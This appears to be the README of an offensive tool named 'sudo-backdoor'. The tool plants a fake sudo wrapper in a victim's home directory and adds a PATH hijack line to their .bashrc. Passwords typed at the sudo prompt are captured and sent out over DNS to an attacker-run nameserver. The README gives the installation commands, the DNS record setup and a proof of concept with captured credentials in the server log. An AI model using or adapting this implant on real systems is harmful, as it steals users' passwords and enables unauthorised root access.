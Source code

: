 # sudo-backdoor
Wraps around `sudo` and logs users credentials, for those annoying times when you get a shell/file write on a sudoers account without knowing their password.

# Installation
## 1. Installing the implant
Append the following line to the target user's `.bashrc` (or their appropriate shell's rc file) by running the following command:

`$ echo "export PATH=~/.payload:$PATH" >> ~/.bashrc`

Then, create `~/.payload/sudo` and paste the code found in this repository's `sudo` in there.

*Don't forget to make the bash script executable by issuing the following command:*

`$ chmod a+x ~/.payload/sudo`

Obviously you might have to adapt this installation recipe to fit the user's shell. If they are using zsh, then install to ~/.zshrc, etc.

## 2. Running the DNS Server

### 2.1 Setting up the nameserver
In your DNS settings, add a new wildcard NS (Name Server) record attached to the `de` subdomain, pointing to an A record directed at your server.

Example: 

```
| Record | Host | Value              | TTL   |
|--------+------+--------------------+-------|
| A      | ns1  | 10.0.0.2           | 1 min |
| NS     | *.de | ns1.yourdomain.com | 1 min |
```

### 2.2 Running the server
Then, on your server at 10.0.0.2, download the `dns-server.py` script and execute it as root.

Example: `# python dns-server.py`

Once it is started, when users affected by the sudo implant enter their credentials in the `sudo` prompt, you will receive their credentials in the `dns-server.py` stdout.

# Usage
Proof of concept: `testuser` is the target with password `passw0rd`.

## Targeted system
```
[testuser:~]$ echo $PATH
/home/testuser/.payload:/usr/local/sbin:/usr/local/bin:/usr/bin
[testuser:~]$ sudo id
[sudo] password for testuser:                → A wrong password is inserted here
Sorry, try again.
[sudo] password for testuser:                → The correct password is inserted here
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
[testuser:~]$ sudo id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log) 
```

`sudo` remembers the cached credentials and does not prompt the second time around, as expected.

## DNS Server output
```
[root:~]# python dns-server.py
[06-26-17 11:06:42] Started DNS server on 0.0.0.0:53.
[06-26-17 11:11:57] #0  173.239.230.96  INVALID testuser        somewr0ng!pa55word
[06-26-17 11:08:11] #0  173.239.230.96  VALID   testuser        passw0rd
```
